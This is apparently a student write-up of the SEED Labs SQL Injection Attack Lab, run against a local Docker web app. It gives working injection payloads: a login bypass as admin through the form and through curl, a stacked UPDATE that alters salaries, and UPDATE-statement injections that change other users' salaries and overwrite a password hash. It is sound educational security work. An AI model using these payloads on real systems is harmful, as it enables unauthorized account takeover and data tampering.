# Trabalho realizado na semana #8

<br>

# SEED Labs - SQL Injection Attack Lab

## Preparation

To prepare our systems for this lab, we followed the Environment Setup section of the guide:

1. Add the entry `10.9.0.5        www.seed-server.com` to the `/etc/hosts` file of your VM.

2. Launch the web server, using `dcup`.
   - This command must be executed in the `Labsetup` directory.

<br>

## Task 1 : Get Familiar with SQL Statements

The goal of this task is to understand the structure of the database that is being used by the web server in the next tasks.

1. Get a shell on the MySQL container.

   1. Use `dockps | grep mysql` to get the id of the container (first column).
   2. Run `docksh <id>` with the id obtained in the previous step (only the first few characters may be used).

2. Get a shell inside the database, by executing `mysql -u root -pdees`.
   
<figure>
   
   <figcaption><strong>Fig 1. </strong>Getting a shell on the MySQL container</figcaption>
</figure>

3. In the database shell:
   
   1. Run `use sqllab_users;` to change the current database to the database named `sqllab_users`.
   2. Run `show tables;` to see a list of the tables in the current database.
   3. Run `select * from credential where name = 'Alice';` to print all of Alice's profile information.

<figure>
   
   <figcaption><strong>Fig 2. </strong>Print all of Alice's profile information</figcaption>
</figure>

<br>

## Task 2 : SQL Injection Attack on SELECT Statement

The goal of this task is to exploit a SQL Injection vulnerability and use that to log in to an arbitrary user account.

First, we'll inspect the code on the server. By going to `Labsetup/image-www/Code/unsafe_home.php`, we can see the code that is used for the home page, which is vulnerable to SQL Injection.

We found the vulnerable SELECT statement and it's presented below:

<figure>
   
   <figcaption><strong>Fig 3. </strong>The vulnerable SELECT statement</figcaption>
</figure>

After finding the vulnerable statement, we did the following steps:
   
1. Looking at the PHP code shown previously, we can see that both the username and the password are injectable. As such, we will use the username since it's the first one to appear in the SQL query, which makes the attack easier to perform.

3. Determine the injection payload:

   - We want to log in with the account of the user named `admin`. We can do that by executing the query `SELECT <fields> FROM credential WHERE name = 'admin';`. In the next steps, we will show how to transform the previously shown query into this one.
  
   1. We do not need the `password` field. To remove it, we can simply comment it out (put `; -- ` before it; the space is needed). This will be placed in the field that comes before `password`, which is `name`. As such, no payload is needed for the `password` field.
   
   2. On the `username` field, we want to select the `admin` account. Furthermore, we also want to introduce the changes described in 1., which means that we must close the string as well. Since the string is opened using `'`, we will need to close it using the same character (`'`). As such, the payload for the `name` field will be `admin'; -- `.
   
   3. The resulting SELECT statement will be as follows:
        ```sql
        SELECT <fields> FROM credential WHERE name = 'admin'; -- ' and Password = '';
        ```

### 1. SQL Injection Attack from webpage

1. Connect to the website on `www.seed-server.com`, where we will be presented with a login page.

2. Fill in the login form with the following inputs:

    - Username: `admin'; -- `
    - Password: *anything you want*

<figure>
   
   <figcaption><strong>Fig 4. </strong>The payload for the SQL Injection attack</figcaption>
</figure>
   
3. Submit the form.
   
<figure>
   
   <figcaption><strong>Fig 5. </strong>Logged in as admin, with SQL Injection</figcaption>
</figure>

### 2. SQL Injection Attack from command line

`curl` is a command-line tool that allows the user to make HTTP requests to any URL. We can, therefore, send our SQL injection payload by using `curl`.

1. Open a terminal.
2. Run `curl "www.seed-server.com/unsafe_home.php?username=admin%27;%20--%20"`.
   
   - Some special characters, such as `'` and spaces need to be encoded when used in a URL. As such, we must use `%20` instead of spaces and `%27` instead of single quotes, which are the corresponding URL-encoded version of those characters.
   
<figure>
   
   
   <figcaption><strong>Figs 6 and 7. </strong>HTML code of admin page, with SQL Injection and curl</figcaption>
</figure>

<br>

### 3. Append a new SQL statement

To execute multiple statements, we can simply add the new statement after the `;` and before the ` -- ` in the username.

As such, if we want to change Ted's salary to 1234, we will need to execute the statement `UPDATE credential SET salary = 1234 WHERE name = 'Ted';`.

This means that the payload will be as follows:

- Username: `admin'; UPDATE credential SET salary = 1234 WHERE name = 'Ted'; -- `
- Password: *anything you want*

If we submit this payload on the webpage, however, we will get an error.

<figure>
   
   <figcaption><strong>Fig 8. </strong>Error after submitting the previous payload</figcaption>
</figure>

This error happens because the server is configured to only execute a single statement per query. To change this, we will need to edit the `unsafe_home.php` file, as shown below.

<figure>
   
   <figcaption><strong>Fig 9. </strong>Code after changes have been applied (lines 75 - 78)</figcaption>
</figure>

With these changes, the server stops using
```php
$conn->query($sql);
```
and instead uses
```php
$conn->multi_query($sql);
```

`multi_query` allows the execution of multiple semicolon-separated statements in the same query, whereas `query` doesn't.

With these changes applied, we need to rebuild the server using `dcup --build`.

After the server is back online, if we submit the payload again, the same user details are shown. This happens because the SELECT statement comes before the UPDATE statement, which means that the changes won't be reflected on the SELECT statement.

To fix this, we can simply reload the page, which will in turn execute the query again and return the updated user details, as shown below.

<figure>
   
   <figcaption><strong>Fig 10. </strong>User details after resubmitting the SQL Injection payload</figcaption>
</figure>

As we can see, Ted's salary has been changed to 1234.

<br>

## Task 3 : SQL Injection Attack on UPDATE Statement

The goal of this task is to explore a SQL Injection vulnerability in an UPDATE statement, which will let us modify the data present in the database.

To avoid having previous tasks interfere with this one, we reset the web server by executing the following commands in the `Labsetup` directory:

1. Run `dcdown` to shut down the containers.

2. Run `git restore .` to remove any modifications we have done to the Lab code.

   - This is important because we modified the server's code in the previous task.

3. Run `sudo rm -rf mysql_data`.

   - This will delete all data from the database container. This is important since we have modified data in the previous task and, by executing this command, we will be resetting the database to its original state.
   
4. Run `dcup --build` to start the containers again.

   - Because of the `--build` flag, this command will also check if any containers need to be rebuilt, in particular, the `www` container.

<figure>
   
   
   <figcaption><strong>Figs 11 and 12. </strong>Resetting the task containers</figcaption>
</figure>


After the containers are reset, we can take a look at the task.
In the lab, we are given a piece of vulnerable code, along with a SQL statement:

```php
$hashed_pwd = sha1($input_pwd);

$sql = "UPDATE credential SET
   nickname='$input_nickname',
   email='$input_email',
   address='$input_address',
   Password='$hashed_pwd',
   PhoneNumber='$input_phonenumber'
   WHERE ID=$id;";
   
$conn->query($sql);
```

As we have seen in previous tasks, this code is vulnerable to SQL Injection because it concatenates strings that have not been sanitized with a SQL query that is passed as-is to the database.

### 1. Modify your own salary

1. Log into Alice's account

   - We want to log in as Alice and change her salary through the edit profile form. To log in, we use the username `Alice` and password `seedalice`. Once inside the account, we navigate to the `Edit Profile` page by clicking on the button on the navbar at the top of the page.

<figure>
   
   <figcaption><strong>Fig 13. </strong>Logging into Alice's account</figcaption>
</figure>

<figure>
   
   <figcaption><strong>Fig 14. </strong>Alice's homepage where we can see her salary</figcaption>
</figure>

2. Determine the payload injection:

   - The column we want to change is `salary`, therefore we will need something like `salary = 123456` in our payload. 
   
   - We will use the `PhoneNumber` field to inject our payload. Any field could be used, as long as it is included as-is in the resulting SQL query. 
   
   - One possible query would be as follows:
   
      ```sql
      UPDATE credential SET
         nickname='',
         ...
         PhoneNumber='', salary='123456'
         WHERE ID=10000;
      ```

   - In this case, it isn't a problem that `salary` is a string as MySQL will automatically convert it to the appropriate type.
      
   - Therefore one possible payload is `', salary='123456`.

   
3. Submit the "Edit Profile" form with the payload on the phone number field.

<figure>
   
   <figcaption><strong>Fig 15. </strong>Our payload</figcaption>
</figure>

As we can see, Alice's salary has been changed to 123456.

<figure>
   
   <figcaption><strong>Fig 16. </strong>Alice's homepage with her new salary</figcaption>
</figure>

### 2. Modify other people’s salary

1. Log into any account. We will log in to Alice's account.

2. Determine the injection payload:

      - This time we want to change someone else's salary, therefore, we will need to change the `WHERE ID=...` part in the resulting query, as this is currently being filled with our ID and, as such, will update our own information. This will need to be overwritten with a condition that only applies to Boby.
      
      - The new condition could be, for instance, `WHERE Name='Bobby'`. However, because we don't want to trigger a syntax error (caused by the original `WHERE ID=...` clause still being present), we will need to comment out everything that comes after that, using `; -- `.

      - Our final query would look something like

         ```sql
         UPDATE credential SET
            nickname='',
            ...
            PhoneNumber='', salary='1' WHERE Name='Boby'; -- ' WHERE ID=10000;
         ```

      - In conclusion, our final payload will be `', salary='1' WHERE Name='Boby'; -- `.


3. Submit the "Edit Profile" form with the payload on the phone number field.

<figure>
   
   <figcaption><strong>Fig 17. </strong>Our payload</figcaption>
</figure>

4. Log out of the website.

5. Log in with Boby's credentials.

   - Username: `Boby`
   - Password: `seedboby`

<figure>
   
   <figcaption><strong>Fig 18. </strong>Logging into Bobby's account</figcaption>
</figure>

As we can see, Bobby's salary has been changed to 1.

<figure>
   
   <figcaption><strong>Fig 19. </strong>Bobby's new salary</figcaption>
</figure>

### 3. Modify other people’s password

1. Log into an account. We will log in to Alice's account.

2. Determine the payload:

      - This task is generally the same as the previous one, the only difference is that the database stores a hash instead of a password, therefore we must hash our new password before inserting it.

      - There are two ways of accomplishing that goal:

         1. Since the new password comes before the phone number in the query, we can simply place the new password in plain text in the password field of the form (it will be hashed by the server) and the rest of the injected SQL in the phone number field of the form. This is useful if we don't what hashing algorithm is being used by the server, but we need to know (or, at least, guess) how the query is organized.

         2. We can also use the same payload as in task 3.2 and replace `salary='1'` with `Password='.<sha1 of password>'`. The downside here is that we need to know the hashing algorithm. Since we know that, we will use this approach.

      - We want to change Boby's password to `you_wont_access_your_account_again_bobby`. Let's hash the password with SHA1: `2409cc93fb815f9da0947627730f3d006aefb4f2`. 

      - Our final query would look something like

         ```sql
         UPDATE credential SET
            nickname='',
            ...,
            Password='',
            PhoneNumber='', Password='2409cc93fb815f9da0947627730f3d006aefb4f2' WHERE Name='Boby'; -- ' WHERE ID=10000;
         ```
      
      - Therefore, our payload will be `', Password='2409cc93fb815f9da0947627730f3d006aefb4f2' WHERE Name='Boby'; -- `.

3. Submit the "Edit Profile" form with the payload on the phone number field.

<figure>
